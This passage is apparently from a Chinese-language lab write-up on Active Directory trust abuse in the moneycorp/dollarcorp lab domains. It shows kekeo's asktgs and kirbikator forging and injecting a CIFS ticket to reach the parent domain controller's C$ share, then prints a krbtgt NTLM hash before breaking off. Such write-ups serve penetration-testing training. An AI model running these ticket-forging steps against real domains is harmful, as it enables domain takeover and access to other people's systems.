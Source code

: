   .#####.   AskTGS Kerberos client 1.0 (x86) built on Dec  8 2016 00:31:13
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com                      (oe.eo)
  '#####'                                                     * * */

Ticket    : C:\AD\kekeo_old\child2parent_trust_tkt.kirbi
Service   : krbtgt / moneycorp.local @ dollarcorp.moneycorp.local
Principal : Administrator @ dollarcorp.moneycorp.local

> CIFS/mcorp-dc.moneycorp.local
  * Ticket in file 'CIFS.mcorp-dc.moneycorp.local.kirbi'
```

此时在```C:\AD\kekeo_old```下已经生成一个CIFS.mcorp-dc.moneycorp.local.kirbi的TGS文件


将 TGS 呈现给目标服务
```
PS C:\ad\kekeo_old>  .\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi

  .#####.   KiRBikator 1.1 (x86) built on Dec  8 2016 00:31:14
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com                      (oe.eo)
  '#####'                                                     * * */

Destination : Microsoft LSA API (multiple)
 < .\CIFS.mcorp-dc.moneycorp.local.kirbi (RFC KRB-CRED (#22))
 > Ticket Administrator@dollarcorp.moneycorp.local-CIFS~mcorp-dc.moneycorp.local@MONEYCORP.LOCAL : injected
```

现在可以访问到父域DC
```
PS C:\ad\kekeo_old> ls //mcorp-dc.moneycorp.local/c$


    Directory: \\mcorp-dc.moneycorp.local\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/29/2019   4:33 AM                PerfLogs
d-r---        2/16/2019   9:14 PM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-r---        2/16/2019   9:14 PM                Users
d-----        8/20/2020   2:57 AM                Windows
```


## 子域到父域（以用户身份访问，可以执行shell）

krbtgt的NTML信息
```
krbtgt:ff46a9d8bd66c6efd77603da26796f35
```

生成一个用户访问TGT
```